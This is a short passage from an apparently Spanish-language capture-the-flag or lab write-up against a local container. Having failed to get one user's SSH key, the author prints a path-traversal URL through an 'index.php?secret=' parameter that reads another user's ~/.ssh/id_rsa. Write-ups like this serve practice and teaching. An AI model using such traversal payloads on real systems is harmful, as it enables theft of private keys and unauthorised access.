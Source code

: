     <img src="../img/Pasted_image_20250101233139.png" width="500">
</p>


De `luisillo` no pudimos ver su contraseña `id_rsa`, por lo que lo intentamos con el usuario `vaxei`
```
http://172.17.0.2/index.php?secret=../../../../../../../../home/vaxei/.ssh/id_rsa
```
<p align="center">